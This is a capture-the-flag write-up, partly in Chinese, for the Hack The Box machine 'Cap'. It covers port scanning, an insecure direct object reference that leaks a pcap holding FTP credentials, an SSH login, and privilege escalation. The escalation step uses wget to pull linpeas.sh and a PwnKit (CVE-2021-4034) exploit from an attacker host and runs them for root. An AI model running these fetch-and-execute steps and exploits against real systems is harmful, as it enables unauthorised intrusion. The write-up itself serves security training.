


###### tags: `Hack the box` `HTB` `Easy` `Linux`

# Cap
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.38.131 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.38.131:22
Open 10.129.38.131:21
Open 10.129.38.131:80

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Mon, 26 Aug 2024 08:44:41 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

前往port80可以點`security snapshot(5 second PCAP + Analsis)`，可以下載流量，他有網址會變成`http://10.129.38.131/data/1`，可以試試看改成`http://10.129.38.131/data/0`下載pcap






發現帳號密碼`nathan/Buck3tH4TF0RM3!`
```
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
```

ssh登入，可在`/home/nathan`得user.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ ssh nathan@10.129.38.131 

nathan@cap:~$ cat user.txt
89dd895c0bd81d681e0d67893294852a
```

用`linpeas.sh`
```
nathan@cap:/tmp$ wget 10.10.14.55/linpeas.sh
nathan@cap:/tmp$ chmod +x linpeas.sh
nathan@cap:/tmp$ ./linpeas.sh

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

用[CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)得root之後，在/root得root.txt
```
nathan@cap:/tmp$ wget 10.10.14.55/CVE-2021-4034.py
nathan@cap:/tmp$ python3 CVE-2021-4034.py
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@cap:/root# cat root.txt
7288058a0c8fe08a9cc672dd9da02223
```